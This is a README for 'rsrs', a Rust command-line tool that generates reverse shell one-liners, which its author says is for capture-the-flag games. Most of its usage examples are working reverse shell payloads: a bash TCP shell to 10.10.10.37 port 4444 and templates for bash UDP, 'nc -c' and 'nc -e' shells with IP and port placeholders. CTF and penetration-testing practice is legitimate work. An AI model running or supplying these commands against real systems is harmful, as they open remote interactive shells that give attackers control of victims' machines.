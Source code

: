 * RuSt Reverse Shell
** What is this?
A reverse shell generator written in rust.
** Why?
I enjoy playing CTFs. There are reverse shell generators available on the web,
but i wanted a single binary program that I could throw into containers and VMs
easily, or just netcat across the wire to a target box.
* Usage
There are 3 subcommands. =Generate=, which generates a reverse shell,
=list-shells= which lists the names of the reverse shells that were compiled in,
and =list-shells-verbose= which lists shells, their components, and their
capabilities.
** Examples
Generate a TCP Bash reverse shell that connects to port 4444 on the IP 10.10.10.37
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r bash_tcp
bash -i >& /dev/tcp/10.10.10.37/4444 0>&1
#+END_SRC

List all shells that run on Linux.
#+BEGIN_SRC
rsrs list-shells linux
nc -c
nc -e
bash_tcp
bash_udp
#+END_SRC

List all shells that run on linux, verbose.
#+BEGIN_SRC
rsrs list-shells-verbose linux
Name:		bash_udp
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT"]
Command:	bash -i >& /dev/udp/{SUBIP}/{SUBPORT} 0>&1
Name:		nc -c
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT", "SHELL"]
Command:	nc -c {SUBSHELL} {SUBIP} {SUBPORT}
Name:		nc -e
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT", "SHELL"]
Command:	nc -e {SUBSHELL} {SUBIP} {SUBPORT}
Name:		bash_tcp
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT"]
Command:	bash -i >& /dev/tcp/{SUBIP}/{SUBPORT} 0>&1
#+END_SRC
